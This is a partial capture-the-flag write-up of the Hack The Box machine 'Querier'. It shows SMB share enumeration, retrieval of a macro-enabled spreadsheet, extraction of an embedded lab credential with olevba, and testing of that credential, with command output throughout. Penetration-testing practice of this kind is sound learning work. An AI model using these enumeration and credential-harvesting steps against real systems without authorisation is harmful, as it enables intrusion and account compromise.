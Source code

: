```yaml
---
layout: post
title: HTB Machine - Querier
subtitle: Writeup
cover-img: /assets/img/Scifi.1920x1080.jpg
thumbnail-img: /assets/img/Scifi.1920x1080.jpg
share-img: /assets/img/Scifi.1920x1080.jpg
tags: [ HTB, Hack the Box]
---
```


#We see that 445 (SMB) is available so we can perhaps get more info with crackmapexec.

crackmapexec smb 10.10.10.125
SMB         10.10.10.125    445    QUERIER          [*] Windows 10.0 Build 17763 x64 (name:QUERIER) (domain:HTB.LOCAL) (signing:False) (SMBv1:False)

#With smbmap we can check the shared files (-L and -N flags) and then check for permission. We needed to try more than once to give us results for some weird reason.

smbmap -H 10.10.10.125 -u 'null'
[+] Guest session   	IP: 10.10.10.125:445	Name: 10.10.10.125                                      
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	READ ONLY	Remote IPC
	Reports                                           	READ ONLY	

#Continue enumerating the directories. We see a file that we download to our machine with smbclient

smbclient //10.10.10.125/reports -N
smb: \> ls
  .                                   D        0  Tue Jan 29 00:23:48 2019
  ..                                  D        0  Tue Jan 29 00:23:48 2019
  Currency Volume Report.xlsm         A    12229  Sun Jan 27 23:21:34 2019

		5158399 blocks of size 4096. 821963 blocks available

smb: \> get "Currency Volume Report.xlsm"

# opening the file shows nothing. But we get a warning about some macros so we install oletools and examine the file with olevba.

sudo -H pip install -U oletools

olevba Currency\ Volume\ Report.xlsm

#olveba shows a user and a pwd reporting:PcwTWTHRwryjc$c6. We verify the user is not valid but it is valid at a domain level. 

❯ crackmapexec smb 10.10.10.125 -u 'reporting' -p 'PcwTWTHRwryjc$c6'
SMB         10.10.10.125    445    QUERIER          [*] Windows 10.0 Build 17763 x64 (name:QUERIER) (domain:HTB.LOCAL) (signing:False) (SMBv1:False)
SMB         10.10.10.125    445    QUERIER          [-] HTB.LOCAL\reporting:PcwTWTHRwryjc$c6 STATUS_NO_LOGON_SERVERS 
